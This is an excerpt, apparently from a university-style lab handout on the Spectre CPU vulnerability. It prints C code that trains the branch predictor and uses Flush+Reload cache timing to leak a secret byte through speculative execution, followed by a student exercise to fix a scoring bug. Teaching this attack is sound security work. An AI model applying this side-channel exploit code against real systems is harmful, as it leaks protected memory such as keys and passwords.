\begin{lstlisting}[caption=SpectreAttackImproved.c]
static int scores[256];

void reloadSideChannelImproved()
{
  int i;
  volatile uint8_t *addr;
  register uint64_t time1, time2;
  int junk = 0;
  for (i = 0; i < 256; i++) {
     addr = &array[i * 4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD)
        scores[i]++; /* if cache hit, add 1 for this value */
  }
}

void spectreAttack(size_t larger_x) 
{
  int i;
  uint8_t s;

  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }

  // Train the CPU to take the true branch inside victim().
  for (i = 0; i < 10; i++) {      
     _mm_clflush(&buffer_size);                  
     restrictedAccess(i);                        
  }

  // Flush buffer_size and array[] from the cache.
  _mm_clflush(&buffer_size);           
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }

  // Ask victim() to return the secret in out-of-order execution.
  s = restrictedAccess(larger_x);         
  array[s*4096 + DELTA] += 88;                  
}


int main()
{
  int i;
  uint8_t s;
  size_t larger_x = (size_t)(secret-(char*)buffer);
  flushSideChannel();   

  for (i = 0; i < 256;  i++) scores[i] = 0;
  for (i = 0; i < 1000; i++) {
      spectreAttack(larger_x);
      reloadSideChannelImproved();
  }

  int max = 0;
  for (i = 0; i < 256; i++){
     if(scores[max] < scores[i])  max = i;
  }
 
  printf("Reading secret value at %p = ", (void*)larger_x);
  printf("The  secret value is %d\n", max);
  printf("The number of hits is %d\n", scores[max]);
  return (0);
}
\end{lstlisting}

You may observe that when running the code above, the one with the highest score is always
\texttt{scores[0]}. Please figure out the reason, and fix the code above,
so the actual secret value (which is not zero) will be printed out. 



